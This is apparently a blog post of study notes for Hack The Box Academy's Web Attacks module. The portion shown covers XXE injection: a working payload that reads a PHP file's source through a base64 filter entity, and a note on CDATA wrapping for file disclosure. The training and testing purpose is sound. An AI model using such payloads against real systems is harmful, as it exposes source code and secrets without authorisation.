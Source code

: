 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Web Attacks"
description: "Explore this detailed walkthrough of Hack The Box Academy's Web Attacks module. Learn effective techniques to perform http verb tampering,Insecure Direct Object References (IDOR), XML External Entity (XXE) Injection and  elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-11-12 19:31
image:  /images/htb/web-attacks/logo.png
tags:   [httb-verb-tampering,idor,xxe,cbbh]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's Web Attacks module. Learn effective techniques to perform http verb tampering,Insecure Direct Object References (IDOR), XML External Entity (XXE) Injection

>
<b>References:</b>
<br/>
<a href="https://academy.hackthebox.com/module/134/section/1158">Web Attacks</a><br/>
<a href="https://jacozwarts.github.io/images/htb/web-attacks/Web_Attacks_Module_Cheat_Sheet.pdf">Web Attacks - Cheat Sheet</a><br/>

# Notes:

### XXE

#### Read PHP source code with `base64` encode filter

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root><name>Test</name>
<tel>01234566789</tel>
<email>&company;</email>
<message>Testing form</message>
</root>
```

#### Advanced File Disclosure - Exercise
<a href="https://academy.hackthebox.com/module/134/section/1206">Hack The Box - Advanced File Disclosure</a><br/>

##### CDATA
`CDATA` is used to output data that does not conform to the XML format, we can wrap the content of the external file reference with a CDATA tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

